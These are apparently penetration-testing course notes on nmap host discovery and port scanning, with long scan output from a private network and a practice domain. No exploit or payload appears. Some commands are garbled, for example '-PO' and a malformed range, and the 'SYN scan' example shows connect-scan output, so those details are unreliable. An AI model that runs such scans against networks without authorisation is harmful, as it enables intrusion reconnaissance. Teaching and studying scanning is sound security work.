Network penetration testing isa well-known method for identifying vulnerabilities in networks, systems, hosts, and network devices before attackers recognize and exploit them. It is the process of actively evaluating the security of a network by simulating the attacks an attacker ‘would perform on a network, attached devices, network applications, or a website, This security assessment of Internet/intranet systems determines the vuinerable network services that unidentified threat sources can abuse. Network penetration test starts with discovering live systems, open ports, troubleshooting live systems, services and grabbing system banners.

Pen tester should try to gain access to the target network environment through live systems, open ports, services, etc. and then use those systems as a base to penetrate deeper into the network.

**Network penetration test commonly includes the following type of tests against target network**
**infrastructure:**

+ Detecting unnecessary open ports, services running, sensitive information exposed through default banners

+ Firewall bypass testing

+ IDS evasion testing

+ Testing switching or routing issues

**Benefits of network penetration testing:**

+ Identification of he critical vulnerabilities enables the security experts to develop and  implement proper fixes
+ Network penetration test helps the administrator to close unnecessary ports, services, hide or customize banners, troubleshoot services and calibrate fiewal/DS rules for robust security.
+ It helps organizations avold huge fines for noncompliance, by helping them comply with the audit regulatory standards like Payment Card Industry Data Security Standard (PCIDDS, Health insurance Portability and Accountability Act (HIPAA), and Gramm-Leach-Bliley Act (GLBA)
+ It helps organizations to identify and address the risk, thus avoids security breach and protects the organization from heavy financial falls

## External vs, Internal Penetration Testing

### External network penetration testing

- Assess from across the internet

- Must break through firewall and intrusion detection/prevention systems

  

External network penetration testing is the method of assessing the assets and Identifying vulnerabilities that could help the attackers to exploit the network from ‘outside, This testing focuses on the servers, technology infrastructure, and the software of the target. This type of testing includes comprehensive analysis of publicly available Information about the target, identifies the target hosts through network enumeration, and assesses behavior of security devices, The main of objective of this method i to find
the vulnerabilities that attackers can exploit outside the network.

**External penetration testing involves security evaluation of:**

- All publicly available network applications such as websites/applications, FTP etc.
- Network infrastructure devices such as firewall, 10S, routers, switches, etc.
- Wireless networks

**External penetration testing is a process of determining the following:**

- Security flaws of client systems

- Strengths of client systems

**Its recommendable to perform external penetration testing during a predetermined**
**evaluation period and should include the following tasks:**

- Collecting available information regarding externally acessible configurations

- Analyzing and identifying the services and topologies of external client networks

- Scanning the ports and services of client Internet services that are prone to attack

### Internal penetration testing

- Assess from inside the corporate network

- Already past the perimeter firewall

  

Internal penetration testing refers to the analysis performed inside the organization and provides the complete picture of the security of an organization. It is the method of Identifying the internal security flaws to protect the organization's infrastructure from Internal threats. This type of testing is similar to external penetration assessment, but with more holistic view of network security. It helps in assessing the network security when attacks happen from inside the organization and the attackers have fair knowledge of the network and its security controls

Internal penetration testing involves security evaluation of:

- All internal networks, infrastructure devices and applications including servers, end
  points, etc.

## Network Penetration Testing Process

1. **Information gathering (OSINT)**
   In this step, the penetration tester performs a survey to gather all the possible Information about the target network. The penetration testers must gather information such as IP addresses, domain names, device type, applications and their versions, and security tools implemented such as IDS, IPS, and firewalls. This information will help them in developing methods of testing the network.

2. **Port scanning**
   Penetration testers use port scanning technique to find the lve IP addresses and open ports on the network devices as wel as fingerprint the services. Penetration testers use vulnerability scanners as well as port scanning tools to find the open ports in an organization. Testers can use tools such as MegaPing, Hping3, NetScan Tools Pro, and ‘Advanced port scanner to perform port scanning.
3. **OS and service fingerprinting**
   Penetration testers must find the operating system (0S) running on the target device to Identify and exploit the known vulnerabilities. OS service fingerprinting also helps the testers identify the protocols running on the port, the brand, and version of the server.
4. **Vulnerability research**
   After determining the list of live IP addresses, open ports services, applications, and OSs running on the target host, the penetration testers must scan the host to identify the known vulnerabilities. Testers deploy vulnerability scanning tools, which come with an in-built vulnerability database, to scan the vulnerabilities of the target. They can use  various types of vunerability scanners, such as Nessus, Qualys, GFl LanGuard, Retina, SAINT, and Nexpose.
5.  **Exploit verification**
   **I**n this step, testers analyze the available exploits through manual verification and password cracking, to validate the results before preparing the reports.
6. **Reporting**
   At the end of network penetration testing process, testers must prepare a comprehensive report to provide findings, suggest solutions, and make recommendations.

## Types of Network Penetration Testing

### White-box penetration testing

White-box network penetration testing, also known as complete knowledge network penetration testing, requires penetration testers to know complete information about the target network The Information includes host IP addresses, domains owned by the company, device types, application and their version, network diagrams, OSs, security defenses like IPS or IDS in the network, and other infrastructure details. Organizations opting for this type of testing must provide testers with network administrator level
knowledge, except passwords.

**Advantages**

- High level of acuracy
- Deep and thorough comprehensiveness
- Test range Includes sections beyond the reach of black box testing, such as application security

**Disadvantages**

- Does not simulate the real-time attack scenario

### Black-box penetration testing

In black-box penetration testing, penetration tester has zero knowledge about the network and its infrastructure; and the organization will not provide any information about their network infrastructure. Here, the tester must collect the information such as domain names, IP range, live hosts, OS details, network map, device types, security defenses, etc., with the help of penetration testing tools or social engineering techniques. He may use publicly available information over the Internet**.**

**Advantages**

- Simulates a real-time attack

**Disadvantages**

- Testers have limited time, unlike the attacker
- Does not cover all the test areas

### Gray-box penetration testing

In gray-box network penetration testing, the client provides limited information about the network to the penetration testers.

**Advantages**

- It is the most cost-effective type of penetration testing

- The results can be similar to that of the white-box network penetration testing

**Disadvantages**

- Clients need to spend time for collecting the required information

## Port Scanning

Port scanning is the process of sending a message to all the ports of a system to check whether they are open or closed. Attackers use an open port to breach the networks by probing for vulnerabilities. A system contains 65,536 (0-65,535) ports in which each port offers a different service. There are different types of port scanning techniques such as vanilla scan, SYN scan, XMAS scan, and FIN scan.

**You can use port scanning to perform the following tasks:**

* Discover live hosts in a network using the Nmap command “nmap -sP 192.168.2.1/255” 
* Identify open ports of a live host using the Nmap port scanning technique
* Find the services running on the open ports of a host using the Nmap command nmap -
  sV <target IP address/domain name>
* Find vulnerabilities in the services running in a host

### Scan the Network to Discover Live Hosts

Testers must identify the live systems on the target network to perform network penetration tests. They can scan the network using network scanning tools such as Nmap, Hping2, and Netcat.

- **ICMP ping scan**: To detect live systems using ICMP ping scan, testers must send an ICMP echo request to each IP addresses in the target network. Use the following nmap ‘command to perform the scan:
  
  nmap -sP <IP_RANGE> or nmap -sn <IP_RANGE> 

  Here -sP represents the nmap switch for ping scan. Firewalls can detect the ICMP scans on the network

  ```
  $nmap -sP 192.168.101.0/24
  Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-17 20:32 PST
  Nmap scan report for 192.168.101.2
  Host is up (0.0034s latency).
  Nmap scan report for 192.168.101.3
  Host is up (0.0037s latency).
  Nmap scan report for 192.168.101.103
  Host is up (0.012s latency).
  Nmap scan report for 192.168.101.104
  Host is up (0.052s latency).
  Nmap scan report for 192.168.101.105
  Host is up (0.084s latency).
  Nmap scan report for 192.168.101.110
  Host is up (0.057s latency).
  Nmap scan report for 192.168.101.111
  Host is up (0.037s latency).
  Nmap done: 256 IP addresses (7 hosts up) scanned in 2.94 seconds
  ```

  ```
  #nmap -sn 192.168.101.0/24
  Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-19 22:21 PST
  Nmap scan report for 192.168.101.2
  Host is up (0.0016s latency).
  MAC Address: BC:98:89:9D:3C:58 (Fiberhome Telecommunication Technologies)
  Nmap scan report for 192.168.101.3
  Host is up (0.00057s latency).
  MAC Address: 3C:84:6A:A7:EB:B0 (Tp-link Technologies)
  Nmap scan report for 192.168.101.103
  Host is up (0.0036s latency).
  MAC Address: 28:6D:CD:4F:88:E7 (Beijing Winner Microelectronics)
  Nmap scan report for 192.168.101.104
  Host is up (0.0046s latency).
  MAC Address: 28:6D:CD:4F:8A:C6 (Beijing Winner Microelectronics)
  Nmap scan report for 192.168.101.105
  Host is up (0.0026s latency).
  MAC Address: 28:6D:CD:4E:45:8A (Beijing Winner Microelectronics)
  Nmap scan report for 192.168.101.106
  Host is up (0.0012s latency).
  MAC Address: 28:CF:E9:7D:FF:17 (Apple)
  Nmap scan report for 192.168.101.112
  Host is up (0.061s latency).
  MAC Address: EC:9B:F3:3C:F8:A2 (Samsung Electro-mechanics(thailand))
  Nmap scan report for 192.168.101.113
  Host is up (0.015s latency).
  MAC Address: 8E:57:89:77:47:F4 (Unknown)
  Nmap scan report for 192.168.101.114
  Host is up (0.055s latency).
  MAC Address: 94:65:9C:98:E2:57 (Intel Corporate)
  Nmap scan report for 192.168.101.117
  Host is up (0.018s latency).
  MAC Address: 94:E9:79:FE:2A:2D (Liteon Technology)
  Nmap scan report for 192.168.101.122
  Host is up (0.00031s latency).
  MAC Address: 18:DB:F2:39:6A:B3 (Dell)
  Nmap scan report for 192.168.101.115
  Host is up.
  Nmap done: 256 IP addresses (12 hosts up) scanned in 2.33 seconds
  ```
  
  
  
- **Popular port SYN scan**: This method involves scanning of only the 1024 popular ports.   ‘As the SYN packets easily pass through the firewall, this scanning is much reliable   compared to the ICMP ping scan. Generally, every host contains at least one popular port for listening the services, thus the scan helps in identifying the live host. To perform   the scan, use the following Nmap command:

  Nmap -sS -PO <IP_RANGE>

  Here, -sS is the operator required to send SYN packets to the target host and -PO operator tells the tools to consider the IP address as live even without an ICMP response.

  ```
  sudo nmap -sS -PO 192.168.101.0/24
  Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-17 20:38 PST
  Nmap scan report for 192.168.101.2
  Host is up (0.0046s latency).
  Not shown: 998 closed ports
  PORT     STATE SERVICE
  80/tcp   open  http
  8099/tcp open  unknown
  MAC Address: BC:98:89:9D:3C:58 (Fiberhome Telecommunication Technologies)
  
  Nmap scan report for 192.168.101.3
  Host is up (0.012s latency).
  Not shown: 997 closed ports
  PORT    STATE SERVICE
  22/tcp  open  ssh
  80/tcp  open  http
  443/tcp open  https
  MAC Address: 3C:84:6A:A7:EB:B0 (Tp-link Technologies)
  
  Nmap scan report for 192.168.101.103
  Host is up (0.0043s latency).
  Not shown: 999 closed ports
  PORT     STATE SERVICE
  6668/tcp open  irc
  MAC Address: 28:6D:CD:4F:88:E7 (Beijing Winner Microelectronics)
  
  Nmap scan report for 192.168.101.104
  Host is up (0.099s latency).
  Not shown: 999 closed ports
  PORT     STATE SERVICE
  6668/tcp open  irc
  MAC Address: 28:6D:CD:4F:8A:C6 (Beijing Winner Microelectronics)
  
  Nmap scan report for 192.168.101.105
  Host is up (0.010s latency).
  Not shown: 999 closed ports
  PORT     STATE SERVICE
  6668/tcp open  irc
  MAC Address: 28:6D:CD:4E:45:8A (Beijing Winner Microelectronics)
  
  Nmap scan report for 192.168.101.110
  Host is up (0.0074s latency).
  All 1000 scanned ports on 192.168.101.110 are closed
  MAC Address: EC:9B:F3:3C:F8:A2 (Samsung Electro-mechanics(thailand))
  
  Nmap scan report for 192.168.101.122
  Host is up (0.0038s latency).
  Not shown: 995 filtered ports
  PORT     STATE SERVICE
  22/tcp   open  ssh
  139/tcp  open  netbios-ssn
  445/tcp  open  microsoft-ds
  8000/tcp open  http-alt
  9000/tcp open  cslistener
  MAC Address: 18:DB:F2:39:6A:B3 (Dell)
  
  Nmap scan report for 192.168.101.111
  Host is up (0.032s latency).
  Not shown: 999 closed ports
  PORT   STATE SERVICE
  22/tcp open  ssh
  
  Nmap done: 256 IP addresses (8 hosts up) scanned in 41.25 seconds
  ```

  

- **All ports SYN scan**: In this method, the testers need to scan all the 64,000 ports using the SYN packers. This method requires more time compared to popular port scan. To optimize the scan, include the maximum round trip time switch in scanning. The Nmap command to perform all port SYN scan is

  Nmap -sS -p1-65535 -PO -max-rtt-timeout <time> <IP_RANGE>

- Specific ports SYN scan: In this type of scan, testers scan specific ports by sending SYN
  packets. The web application servers use the 80 and 443 ports to listen the services.
  Thus, the testers must use the following Nmap command to scan the web application
  server:

  Nmap -sS -p80,443 -PO <IP_RANGE>
  

## Ping Scan Messages and Codes


| Message Received/Type         | Code | Meaning/Description                       |
| ----------------------------- | ---- | ----------------------------------------- |
| 3-Destination Unreachable [5] | 0    | Destination network unreachable           |
| 3-Destination Unreachable [5] | 1    | Destination host unreachable              |
| 3-Destination Unreachable [5] | 2    | Destination protocol unreachable          |
| 3-Destination Unreachable [5] | 3    | Destination port unreachable              |
| 3-Destination Unreachable [5] | 4    | Fragmentation required, and DF flag set   |
| 3-Destination Unreachable [5] | 5    | Source route failed                       |
| 3-Destination Unreachable [5] | 6    | Destination network unknown               |
| 3-Destination Unreachable [5] | 7    | Destination host unknown                  |
| 3-Destination Unreachable [5] | 8    | Source host isolated                      |
| 3-Destination Unreachable [5] | 9    | Network administratively prohibited       |
| 3-Destination Unreachable [5] | 10   | Host administratively prohibited          |
| 3-Destination Unreachable [5] | 11   | Network unreachable for TOS               |
| 3-Destination Unreachable [5] | 12   | Host unreachable for TOS                  |
| 3-Destination Unreachable [5] | 13   | Communication administratively prohibited |
| 8-Echo Request                | 0    | Echo request (used to ping)               |
| 13-Timestamp                  | 0    | Timestamp                                 |
| 15-Information Request        | 0    | Information request                       |
| 17-Address Mask Request       | 0    | Address mask request                      |

## Identify Default Open Ports

- Most firewall implementations have default ports in use for remote management purposes, for example, user authentication, management, VPN connections, etc.
- Port scanners extract the information about open ports and relevant services of those ports
- Port scanning helps the pen tester in creating a profile of the target organization
- Use port scanning tools, such as Nmap, Hping, etc., to perform port scanning

```
nmap -p 1-65535 -T4 -A -v certifiedhacker.com
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-18 00:51 PST
NSE: Loaded 153 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 00:51
Completed NSE at 00:51, 0.00s elapsed
Initiating NSE at 00:51
Completed NSE at 00:51, 0.00s elapsed
Initiating NSE at 00:51
Completed NSE at 00:51, 0.00s elapsed
Initiating Ping Scan at 00:51
Scanning certifiedhacker.com (162.241.216.11) [2 ports]
Completed Ping Scan at 00:51, 0.21s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 00:51
Completed Parallel DNS resolution of 1 host. at 00:51, 0.03s elapsed
Initiating Connect Scan at 00:51
Scanning certifiedhacker.com (162.241.216.11) [65535 ports]
Discovered open port 53/tcp on 162.241.216.11
Discovered open port 443/tcp on 162.241.216.11
Discovered open port 80/tcp on 162.241.216.11
Discovered open port 21/tcp on 162.241.216.11
Discovered open port 993/tcp on 162.241.216.11
Discovered open port 3306/tcp on 162.241.216.11
Discovered open port 22/tcp on 162.241.216.11
Discovered open port 143/tcp on 162.241.216.11
Discovered open port 995/tcp on 162.241.216.11
Discovered open port 110/tcp on 162.241.216.11
Discovered open port 587/tcp on 162.241.216.11
Discovered open port 2222/tcp on 162.241.216.11
Connect Scan Timing: About 6.60% done; ETC: 00:59 (0:07:19 remaining)
Discovered open port 2095/tcp on 162.241.216.11
Discovered open port 2083/tcp on 162.241.216.11
Connect Scan Timing: About 11.87% done; ETC: 01:00 (0:07:55 remaining)
Connect Scan Timing: About 18.07% done; ETC: 01:00 (0:07:20 remaining)
Discovered open port 2080/tcp on 162.241.216.11
Connect Scan Timing: About 23.55% done; ETC: 01:00 (0:06:52 remaining)
Connect Scan Timing: About 29.19% done; ETC: 01:00 (0:06:21 remaining)
Connect Scan Timing: About 34.95% done; ETC: 01:00 (0:05:54 remaining)
Connect Scan Timing: About 40.31% done; ETC: 01:00 (0:05:26 remaining)
Connect Scan Timing: About 46.24% done; ETC: 01:00 (0:04:58 remaining)
Connect Scan Timing: About 51.42% done; ETC: 01:00 (0:04:30 remaining)
```

## Use Connect Scan (Full Open Scan) 

- Use Nmap with -sT switch to perform a TCP connect scan and examine the response from the target

- Nmap uses the operating system’s connect() system call and tries to establish a connection with the
  target at all specified ports
- Bydefault, nmap -sT command scans for first 1000 most common ports

```
$nmap -sT -v certifiedhacker.com
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-18 01:02 PST
Initiating Ping Scan at 01:02
Scanning certifiedhacker.com (162.241.216.11) [2 ports]
Completed Ping Scan at 01:02, 0.20s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 01:02
Completed Parallel DNS resolution of 1 host. at 01:02, 0.20s elapsed
Initiating Connect Scan at 01:02
Scanning certifiedhacker.com (162.241.216.11) [1000 ports]
Discovered open port 995/tcp on 162.241.216.11
Discovered open port 21/tcp on 162.241.216.11
Discovered open port 3306/tcp on 162.241.216.11
Discovered open port 143/tcp on 162.241.216.11
Discovered open port 22/tcp on 162.241.216.11
Discovered open port 80/tcp on 162.241.216.11
Discovered open port 443/tcp on 162.241.216.11
Discovered open port 587/tcp on 162.241.216.11
Discovered open port 993/tcp on 162.241.216.11
Discovered open port 53/tcp on 162.241.216.11
Discovered open port 110/tcp on 162.241.216.11
Discovered open port 5432/tcp on 162.241.216.11
Discovered open port 2222/tcp on 162.241.216.11
Discovered open port 26/tcp on 162.241.216.11
Discovered open port 465/tcp on 162.241.216.11
Completed Connect Scan at 01:02, 7.95s elapsed (1000 total ports)
Nmap scan report for certifiedhacker.com (162.241.216.11)
Host is up (0.21s latency).
rDNS record for 162.241.216.11: box5331.bluehost.com
Not shown: 983 closed ports
PORT     STATE    SERVICE
21/tcp   open     ftp
22/tcp   open     ssh
25/tcp   filtered smtp
26/tcp   open     rsftp
53/tcp   open     domain
80/tcp   open     http
110/tcp  open     pop3
143/tcp  open     imap
443/tcp  open     https
465/tcp  open     smtps
587/tcp  open     submission
993/tcp  open     imaps
995/tcp  open     pop3s
2222/tcp open     EtherNetIP-1
2525/tcp filtered ms-v-worlds
3306/tcp open     mysql
5432/tcp open     postgresql

Read data files from: /usr/bin/../share/nmap
```

## Use SYN Scan  (Half-open Scan) 

- Stealth scanning techniques are used to bypass firewall rules and logging mechanisms, and hide themselves as usual network traffic
- Client sends SYN packet to target and waits for the response. If the target responds with SYN/ACK, it infers that port is open on the target
- However, if the target responds with RST. This infers that port is closed on the target

```
$nmap -T4 -A -v certifiedhacker.com
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-18 01:08 PST
NSE: Loaded 153 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 01:08
Completed NSE at 01:08, 0.00s elapsed
Initiating NSE at 01:08
Completed NSE at 01:08, 0.00s elapsed
Initiating NSE at 01:08
Completed NSE at 01:08, 0.00s elapsed
Initiating Ping Scan at 01:08
Scanning certifiedhacker.com (162.241.216.11) [2 ports]
Completed Ping Scan at 01:08, 0.21s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 01:08
Completed Parallel DNS resolution of 1 host. at 01:08, 0.04s elapsed
Initiating Connect Scan at 01:08
Scanning certifiedhacker.com (162.241.216.11) [1000 ports]
Discovered open port 80/tcp on 162.241.216.11
Discovered open port 22/tcp on 162.241.216.11
Discovered open port 143/tcp on 162.241.216.11
Discovered open port 53/tcp on 162.241.216.11
Discovered open port 21/tcp on 162.241.216.11
Discovered open port 443/tcp on 162.241.216.11
Discovered open port 995/tcp on 162.241.216.11
Discovered open port 110/tcp on 162.241.216.11
Discovered open port 587/tcp on 162.241.216.11
Discovered open port 3306/tcp on 162.241.216.11
Discovered open port 993/tcp on 162.241.216.11
Discovered open port 465/tcp on 162.241.216.11
Discovered open port 5432/tcp on 162.241.216.11
Discovered open port 26/tcp on 162.241.216.11
Discovered open port 2222/tcp on 162.241.216.11
Completed Connect Scan at 01:08, 8.07s elapsed (1000 total ports)
Initiating Service scan at 01:08
Scanning 15 services on certifiedhacker.com (162.241.216.11)
Completed Service scan at 01:09, 44.90s elapsed (15 services on 1 host)
NSE: Script scanning 162.241.216.11.
Initiating NSE at 01:09
Completed NSE at 01:09, 9.12s elapsed
Initiating NSE at 01:09
Completed NSE at 01:09, 9.71s elapsed
Initiating NSE at 01:09
Completed NSE at 01:09, 0.00s elapsed
Nmap scan report for certifiedhacker.com (162.241.216.11)
Host is up (0.21s latency).
rDNS record for 162.241.216.11: box5331.bluehost.com
Not shown: 983 closed ports
PORT     STATE    SERVICE     VERSION
21/tcp   open     ftp         Pure-FTPd
| ssl-cert: Subject: commonName=*.bluehost.com
| Subject Alternative Name: DNS:*.bluehost.com, DNS:bluehost.com
| Issuer: commonName=Sectigo RSA Domain Validation Secure Server CA/organizationName=Sectigo Limited/stateOrProvinceName=Greater Manchester/countryName=GB
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2021-01-28T00:00:00
| Not valid after:  2022-01-28T23:59:59
| MD5:   e141 675f 28f8 3cb1 fdbc 1cff 5aae 2ff3
|_SHA-1: 1d40 533a cab2 8402 3f61 467f 5334 2bda 106c e451
22/tcp   open     ssh         OpenSSH 5.3 (protocol 2.0)
| ssh-hostkey: 
|   1024 56:07:68:de:0c:92:4f:b5:e0:1f:cc:0b:c3:ba:0a:2f (DSA)
|_  2048 c5:65:11:7c:5b:03:60:8e:be:13:1e:d9:b6:8d:80:ac (RSA)
25/tcp   filtered smtp
26/tcp   open     smtp        Exim smtpd 4.94.2
| smtp-commands: box5331.bluehost.com Hello certifiedhacker.com [119.95.198.40], SIZE 52428800, 8BITMIME, PIPELINING, PIPE_CONNECT, AUTH PLAIN LOGIN, STARTTLS, HELP, 
|_ Commands supported: AUTH STARTTLS HELO EHLO MAIL RCPT DATA BDAT NOOP QUIT RSET HELP 
53/tcp   open     domain      ISC BIND 9.8.2rc1 (RedHat Enterprise Linux 6)
| dns-nsid: 
|_  bind.version: 9.8.2rc1-RedHat-9.8.2-0.62.rc1.el6_9.4
80/tcp   open     http        Apache httpd
|_http-favicon: Unknown favicon MD5: 629CCC774AED95B2C6BEC91151F7292D
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
| http-server-header: 
|   Apache
|_  nginx/1.19.10
|_http-title: Certfied Hacker
110/tcp  open     pop3        Dovecot pop3d
|_pop3-capabilities: AUTH-RESP-CODE UIDL USER TOP STLS SASL(PLAIN LOGIN) CAPA PIPELINING RESP-CODES
| ssl-cert: Subject: commonName=cpcalendars.certifiedhacker.com
| Subject Alternative Name: DNS:autodiscover.certifiedhacker.com, DNS:certifiedhacker.com, DNS:cpanel.certifiedhacker.com, DNS:cpcalendars.certifiedhacker.com, DNS:cpcontacts.certifiedhacker.com, DNS:mail.certifiedhacker.com, DNS:webdisk.certifiedhacker.com, DNS:webmail.certifiedhacker.com, DNS:www.certifiedhacker.com
| Issuer: commonName=R3/organizationName=Let's Encrypt/countryName=US
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2021-06-17T15:34:55
| Not valid after:  2021-09-15T15:34:54
| MD5:   b5c1 e46b b193 d9fb 4d9c 36a4 2034 7e95
|_SHA-1: 5545 48da 0150 46f3 9730 f5ea 7ebf a6c4 5a66 08f3
143/tcp  open     imap        Dovecot imapd
|_imap-capabilities: OK ID listed more ENABLE NAMESPACE IMAP4rev1 LOGIN-REFERRALS Pre-login LITERAL+ AUTH=PLAIN IDLE capabilities SASL-IR have AUTH=LOGINA0001 STARTTLS post-login
| ssl-cert: Subject: commonName=cpcalendars.certifiedhacker.com
| Subject Alternative Name: DNS:autodiscover.certifiedhacker.com, DNS:certifiedhacker.com, DNS:cpanel.certifiedhacker.com, DNS:cpcalendars.certifiedhacker.com, DNS:cpcontacts.certifiedhacker.com, DNS:mail.certifiedhacker.com, DNS:webdisk.certifiedhacker.com, DNS:webmail.certifiedhacker.com, DNS:www.certifiedhacker.com
| Issuer: commonName=R3/organizationName=Let's Encrypt/countryName=US
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2021-06-17T15:34:55
| Not valid after:  2021-09-15T15:34:54
| MD5:   b5c1 e46b b193 d9fb 4d9c 36a4 2034 7e95
|_SHA-1: 5545 48da 0150 46f3 9730 f5ea 7ebf a6c4 5a66 08f3
443/tcp  open     ssl/http    Apache httpd
|_http-favicon: Unknown favicon MD5: 629CCC774AED95B2C6BEC91151F7292D
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
| http-server-header: 
|   Apache
|_  nginx/1.19.10
|_http-title: Certfied Hacker
| ssl-cert: Subject: commonName=cpcalendars.certifiedhacker.com
| Subject Alternative Name: DNS:autodiscover.certifiedhacker.com, DNS:certifiedhacker.com, DNS:cpanel.certifiedhacker.com, DNS:cpcalendars.certifiedhacker.com, DNS:cpcontacts.certifiedhacker.com, DNS:mail.certifiedhacker.com, DNS:webdisk.certifiedhacker.com, DNS:webmail.certifiedhacker.com, DNS:www.certifiedhacker.com
| Issuer: commonName=R3/organizationName=Let's Encrypt/countryName=US
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2021-06-17T15:34:55
| Not valid after:  2021-09-15T15:34:54
| MD5:   b5c1 e46b b193 d9fb 4d9c 36a4 2034 7e95
|_SHA-1: 5545 48da 0150 46f3 9730 f5ea 7ebf a6c4 5a66 08f3
465/tcp  open     ssl/smtp    Exim smtpd 4.94.2
| smtp-commands: box5331.bluehost.com Hello certifiedhacker.com [119.95.198.40], SIZE 52428800, 8BITMIME, PIPELINING, PIPE_CONNECT, AUTH PLAIN LOGIN, HELP, 
|_ Commands supported: AUTH HELO EHLO MAIL RCPT DATA BDAT NOOP QUIT RSET HELP 
587/tcp  open     smtp        Exim smtpd 4.94.2
|_smtp-commands: Couldn't establish connection on port 587
993/tcp  open     imaps?
|_imap-capabilities: OK ID listed more ENABLE NAMESPACE IMAP4rev1 LOGIN-REFERRALS Pre-login LITERAL+ post-login IDLE capabilities SASL-IR have AUTH=LOGINA0001 AUTH=PLAIN
| ssl-cert: Subject: commonName=cpcalendars.certifiedhacker.com
| Subject Alternative Name: DNS:autodiscover.certifiedhacker.com, DNS:certifiedhacker.com, DNS:cpanel.certifiedhacker.com, DNS:cpcalendars.certifiedhacker.com, DNS:cpcontacts.certifiedhacker.com, DNS:mail.certifiedhacker.com, DNS:webdisk.certifiedhacker.com, DNS:webmail.certifiedhacker.com, DNS:www.certifiedhacker.com
| Issuer: commonName=R3/organizationName=Let's Encrypt/countryName=US
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2021-06-17T15:34:55
| Not valid after:  2021-09-15T15:34:54
| MD5:   b5c1 e46b b193 d9fb 4d9c 36a4 2034 7e95
|_SHA-1: 5545 48da 0150 46f3 9730 f5ea 7ebf a6c4 5a66 08f3
995/tcp  open     pop3s?
|_pop3-capabilities: AUTH-RESP-CODE SASL(PLAIN LOGIN) CAPA UIDL USER TOP PIPELINING RESP-CODES
| ssl-cert: Subject: commonName=cpcalendars.certifiedhacker.com
| Subject Alternative Name: DNS:autodiscover.certifiedhacker.com, DNS:certifiedhacker.com, DNS:cpanel.certifiedhacker.com, DNS:cpcalendars.certifiedhacker.com, DNS:cpcontacts.certifiedhacker.com, DNS:mail.certifiedhacker.com, DNS:webdisk.certifiedhacker.com, DNS:webmail.certifiedhacker.com, DNS:www.certifiedhacker.com
| Issuer: commonName=R3/organizationName=Let's Encrypt/countryName=US
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2021-06-17T15:34:55
| Not valid after:  2021-09-15T15:34:54
| MD5:   b5c1 e46b b193 d9fb 4d9c 36a4 2034 7e95
|_SHA-1: 5545 48da 0150 46f3 9730 f5ea 7ebf a6c4 5a66 08f3
2222/tcp open     ssh         OpenSSH 5.3 (protocol 2.0)
| ssh-hostkey: 
|_  1024 56:07:68:de:0c:92:4f:b5:e0:1f:cc:0b:c3:ba:0a:2f (DSA)
2525/tcp filtered ms-v-worlds
3306/tcp open     mysql       MySQL 5.6.41-84.1
| mysql-info: 
|   Protocol: 10
|   Version: 5.6.41-84.1
|   Thread ID: 78554077
|   Capabilities flags: 65535
|   Some Capabilities: IgnoreSigpipes, SwitchToSSLAfterHandshake, Support41Auth, InteractiveClient, Speaks41ProtocolOld, SupportsTransactions, IgnoreSpaceBeforeParenthesis, LongPassword, ConnectWithDatabase, FoundRows, SupportsCompression, Speaks41ProtocolNew, SupportsLoadDataLocal, ODBCClient, DontAllowDatabaseTableColumn, LongColumnFlag, SupportsMultipleStatments, SupportsMultipleResults, SupportsAuthPlugins
|   Status: Autocommit
|   Salt: sOn^l&s3D<Ao,*/Ms}<P
|_  Auth Plugin Name: mysql_native_password
| ssl-cert: Subject: commonName=*.bluehost.com
| Subject Alternative Name: DNS:*.bluehost.com, DNS:bluehost.com
| Issuer: commonName=Sectigo RSA Domain Validation Secure Server CA/organizationName=Sectigo Limited/stateOrProvinceName=Greater Manchester/countryName=GB
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2021-01-28T00:00:00
| Not valid after:  2022-01-28T23:59:59
| MD5:   e141 675f 28f8 3cb1 fdbc 1cff 5aae 2ff3
|_SHA-1: 1d40 533a cab2 8402 3f61 467f 5334 2bda 106c e451
|_ssl-date: 2021-08-17T05:11:37+00:00; -11h57m36s from scanner time.
5432/tcp open     postgresql  PostgreSQL DB
| fingerprint-strings: 
|   SMBProgNeg: 
|     SFATAL
|     C0A000
|     Munsupported frontend protocol 65363.19778: server supports 1.0 to 3.0
|     Fpostmaster.c
|     L1624
|_    RProcessStartupPacket
3 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at https://nmap.org/cgi-bin/submit.cgi?new-service :
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port993-TCP:V=7.91%I=7%D=8/18%Time=611BED0B%P=x86_64-pc-linux-gnu%r(SSL
SF:v23SessionReq,5,"\x80\x03\0\0\x01");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port995-TCP:V=7.91%I=7%D=8/18%Time=611BED06%P=x86_64-pc-linux-gnu%r(SSL
SF:v23SessionReq,5,"\x80\x03\0\0\x01");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port5432-TCP:V=7.91%I=7%D=8/18%Time=611BED06%P=x86_64-pc-linux-gnu%r(SM
SF:BProgNeg,85,"E\0\0\0\x84SFATAL\0C0A000\0Munsupported\x20frontend\x20pro
